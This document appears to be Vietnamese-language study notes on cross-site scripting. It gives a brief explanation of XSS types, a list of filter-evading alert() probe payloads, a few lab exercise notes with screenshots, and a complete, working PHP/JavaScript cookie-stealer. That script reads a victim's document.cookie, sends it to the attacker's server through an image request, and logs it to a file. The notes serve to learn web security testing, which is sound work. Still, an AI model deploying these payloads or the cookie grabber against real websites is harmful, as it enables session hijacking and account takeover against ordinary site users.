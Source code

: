 # A3-Cross-Site Scripting (XSS)
### khái quát
XSS được viết tắt bởi Cross-Site-Scripting. Nó là một phương pháp tấn công cơ bản. Nó dựa trên việc thực thi HTML và JavaScript trên một trang web. Việc tấn công này có thể xảy ra khi xác nhận những lệnh ở các text-box, hoặc cũng có thể là trên thanh URL. Những kết quả được đọc dưới dạng HTML, vì vậy nó sử dụng một vài thủ thuật Social-Engineering để tác động đến 1 ai đó tải một virus mà chính bạn đã tạo ra, và là tiềm năng cho một botnet, hoặc RAT, cũng có thể là 1 keylogger. XSS có thể trở nên rất nguy hiểm, Nhưng cũng có thể rất vô hại.
### gồm 3 loại
- STORED-XSS :  chèn đoạn js thông qua lưu trữ , vd gửi tn đến admin

-  REFLECTED-XSS: Khác với Stored-XSS, Reflected-XSS đoạn mã khai thác sẽ không được lưu trữ trên server , chèn js vào mục tìm kiến hay cmt...

- xss dom based : chưa nắm rõ

các đoạn mã check lỗi
```

"><script>alert("XSS")</script>
"><script>alert(String.fromCharCode(88,83,83)) </script>
'><script>alert("XSS")</script>
'><script>alert(String.fromCharCode(88,83,83))</script>
<ScRIPt>aLeRT("XSS")</ScRIPt>
<ScRIPt<aLeRT(String.fromCharCode(88,83,83))</ScRIPt>
"><ScRIPt>aLeRT("XSS")</ScRIPt>
"><ScRIPt<aLeRT(String.fromCharCode(88,83,83)) </ScRIPt>
'><ScRIPt>aLeRT("XSS")</ScRIPt>
'><ScRIPt<aLeRT(String.fromCharCode(88,83,83))</ScRIPt>
</script><script>alert("XSS")</script>
</script><script>alert(String.fromCharCode(88,83,83) )</script>
"/><script>alert("XSS")</script>
"/><script>alert(String.fromCharCode(88,83,83))</script>
'/><script>alert("XSS")</script>
'/><script>alert(String.fromCharCode(88,83,83))</script>
</SCRIPT>"><SCRIPT>alert("XSS")</SCRIPT>
</SCRIPT>"><SCRIPT>alert(String.fromCharCode(88,83,8 3))
</SCRIPT>">"><SCRIPT>alert("XSS")</SCRIPT>
</SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83 ,83))</SCRIPT>
";alert("XSS");"
";alert(String.fromCharCode(88,83,83));"
';alert("XSS");'
';alert(String.fromCharCode(88,83,83));'
";alert("XSS")
";alert(String.fromCharCode(88,83,83))
';alert("XSS")
';alert(String.fromCharCode(88,83,83))

```
 - đoạn PHP get cookie
 
 ```
 <?php
/*
* Created on 16. april. 2007 Được tạo ngày 16/8/2007
* Created by Audun Larsen (audun@munio.no)- Tác giả-
*
* Copyright 2006 Munio IT, Audun Larsen
*
* THIS SOFTWARE IS PROVIDED BY THE AUTHOR ``AS IS'' AND ANY EXPRESS OR IMPLIED WARRANTIES,
* INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS
* FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL THE AUTHOR OR CONTRIBUTORS BE LIABLE
* FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES
* (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS;
* OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY,
* OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE,
* EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.
*/

if(strlen($_SERVER['QUERY_STRING']) > 0) {
$fp=fopen('./CookieLog.txt', 'a');
fwrite($fp, urldecode($_SERVER['QUERY_STRING'])."\n");
fclose($fp);
} else {
?>

var ownUrl = 'http://<?php echo $_SERVER['HTTP_HOST']; ?><?php echo $_SERVER['PHP_SELF']; ?>';

// ==
// URLEncode and URLDecode functions
//
// Copyright Albion Research Ltd. 2002
// http://www.albionresearch.com/
//
// You may copy these functions providing that
// (a) you leave this copyright notice intact, and
// (b) if you use these functions on a publicly accessible
// web site you include a credit somewhere on the web site
// with a link back to http://www.albionresearch.com/
//
// If you find or fix any bugs, please let us know at albionresearch.com
//
// SpecialThanks to Neelesh Thakur for being the first to
// report a bug in URLDecode() - now fixed 2003-02-19.
// And thanks to everyone else who has provided comments and suggestions.
// ==
function URLEncode(str)
{
// The Javascript escape and unescape functions do not correspond
// with what browsers actually do...
var SAFECHARS = "0123456789" + // Numeric
"ABCDEFGHIJKLMNOPQRSTUVWXYZ" + // Alphabetic
"abcdefghijklmnopqrstuvwxyz" +
"-_.!~*'()"; // RFC2396 Mark characters
var HEX = "0123456789ABCDEF";

var plaintext = str;
var encoded = "";
for (var i = 0; i < plaintext.length; i++ ) {
var ch = plaintext.charAt(i);
if (ch == " ") {
encoded += "+"; // x-www-urlencoded, rather than %20
} else if (SAFECHARS.indexOf(ch) != -1) {
encoded += ch;
} else {
var charCode = ch.charCodeAt(0);
if (charCode > 255) {
alert( "Unicode Character '"
+ ch
+ "' cannot be encoded using standard URL encoding.\n" +
"(URL encoding only supports 8-bit characters.)\n" +
"A space (+) will be substituted." );
encoded += "+";
} else {
encoded += "%";
encoded += HEX.charAt((charCode >> 4) & 0xF);
encoded += HEX.charAt(charCode & 0xF);
}
}
} // for

return encoded;
};

cookie = URLEncode(document.cookie);
html = '<img src="'+ownUrl+'?'+cookie+'">';
document.write(html);

< ?php
}
?>
``` 

### lab 

**XSS - Reflected (GET),XSS - Reflected (POST)**
<img src="http://image.prntscr.com/image/c5611150478940c799cc3e47046a8965.png">

**XSS - Reflected (JSON)** chú ý , câu lệnh mở đầu để đóng cho phù hợp, ;`prompt("hiện khung nhập")`
<img src="http://image.prntscr.com/image/01053693841144838dff6e57136cd5be.png">

**XSS - Stored (User-Agent)**

<img src="http://image.prntscr.com/image/d26603cff35b44dda6efe9c057ce7b68.png">
